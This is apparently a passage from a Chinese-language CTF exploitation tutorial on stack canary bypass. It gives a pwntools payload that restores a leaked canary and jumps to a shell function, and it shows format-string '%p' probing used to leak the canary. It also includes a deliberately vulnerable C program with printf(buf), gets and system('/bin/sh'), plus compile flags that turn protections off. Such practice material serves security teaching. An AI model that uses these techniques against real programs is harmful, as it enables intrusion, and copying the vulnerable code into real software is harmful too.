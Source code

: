 ```python

payload = b'a' * 10 + p32(canary) + b'a' * (8 + 4) + p32(0x8048586)

p.sendline(payload)

p.interactive()
```

**练习：buuctf [第十五章] [15.5.2 canary bypass]ex2** 



#### 				2) 格式化字符串泄露

```
'%offset$p'
```

先输入

```
aaaa.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
```

找出格式化字符串的偏移，然后计算canary在栈上与格式化字符串buf的距离

```python
canary_offset = buf_offset + (canary_addr - buf_addr) // 8 (4)
```

题目特征：

```c
read(0, buf, 0xnn);
printf(buf);
```

```c
// printffmt.c
#include <stdio.h>


void aaa(){
	system("/bin/sh");
}

void bbb(){
	char buf[10];
	read(0, buf, 0x100);
	printf(buf);
	gets(buf);
}

int main(){
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	bbb();
	
}

//gcc -m32 -Wno-stack-protector -no-pie -fno-pie -z execstack $1.c -o $1
```
